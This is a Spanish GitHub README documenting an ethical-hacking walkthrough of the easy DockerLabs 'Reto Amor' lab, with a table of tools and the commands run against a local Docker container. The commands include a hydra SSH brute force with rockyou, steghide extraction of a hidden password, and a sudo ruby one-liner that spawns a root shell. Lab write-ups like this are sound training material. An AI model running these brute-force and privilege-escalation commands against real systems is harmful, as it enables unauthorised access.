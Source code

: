 **Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------


## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

# 2. Instalar Docker (si aplica)

```bash
sudo apt install docker.io
```

# 3. Desplegar máquina

```bash
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```
![Despliegue](Despliegue.jpg)

# 4. Obtener interfaz de red

```bash
ip add
```

# 5. Escaneo de red en docker0

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

# 6. Escanear puertos abiertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```
# 7. Fuzzing web

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# 8. Fuerza bruta SSH

![Fuerza bruta](Fuerza%20bruta%20SSH.png)

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# 9. Acceso por SSH

```bash
ssh carlota@172.17.0.2
```
# 10. Buscar imagen

```bash
cd /carlota/Desktop/fotos/vacaciones
```

# 11. Descargar imagen a Kali

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![Amor](AMOR.png)

# 12. Extraer contenido oculto

![Decodificacion](stghide.png)

```bash
steghide extract -sf imagen.jpg
```
# 13. Decodificar mensaje oculto

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

# 14. Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo

![Diagrama de Flujo](DiagrammeAMOR.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

- Identificar servicios expuestos (22, 80).
- Obtener acceso SSH por fuerza bruta.
- Detectar archivo con datos esteganográficos.
- Decodificar contraseña y escalar privilegios a root.



